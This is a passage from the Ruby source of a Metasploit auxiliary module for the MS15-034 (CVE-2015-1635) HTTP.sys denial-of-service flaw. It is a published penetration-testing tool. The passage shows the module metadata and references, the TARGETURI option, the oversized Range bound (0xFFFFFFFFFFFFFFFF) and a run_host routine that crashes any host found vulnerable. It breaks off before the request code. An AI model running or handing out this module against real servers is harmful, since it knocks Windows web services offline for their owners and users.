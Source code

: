 ```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Auxiliary

  # Watch out, dos all the things
  include Msf::Auxiliary::Scanner
  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Dos

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'MS15-034 HTTP Protocol Stack Request Handling Denial-of-Service',
      'Description'    => %q{
        This module will check if scanned hosts are vulnerable to CVE-2015-1635 (MS15-034), a
        vulnerability in the HTTP protocol stack (HTTP.sys) that could result in arbitrary code
        execution. This module will try to cause a denial-of-service.
      },
      'Author'         =>
        [
          # Bill did all the work (see the pastebin code), twitter: @hectorh56193716
          'Bill Finlayson',
          # MSF. But really, these people made it happen:
          # https://github.com/rapid7/metasploit-framework/pull/5150
          'sinn3r'
        ],
      'References'     =>
        [
          ['CVE', '2015-1635'],
          ['MSB', 'MS15-034'],
          ['URL', 'https://pastebin.com/ypURDPc4'],
          ['URL', 'https://github.com/rapid7/metasploit-framework/pull/5150'],
          ['URL', 'https://community.qualys.com/blogs/securitylabs/2015/04/20/ms15-034-analyze-and-remote-detection'],
          ['URL', 'http://www.securitysift.com/an-analysis-of-ms15-034/']
        ],
      'License'        => MSF_LICENSE
    ))

    register_options(
      [
        OptString.new('TARGETURI', [false, 'URI to the site (e.g /site/) or a valid file resource (e.g /welcome.png)', '/'])
      ])
  end

  def upper_range
    0xFFFFFFFFFFFFFFFF
  end

  def run_host(ip)
    if check_host(ip) == Exploit::CheckCode::Vulnerable
      dos_host(ip)
    else
      print_status("Probably not vulnerable, will not dos it.")
    end
  end

  # Needed to allow the vulnerable uri to be shared between the #check and #dos
  def target_uri
    @target_uri ||= super
```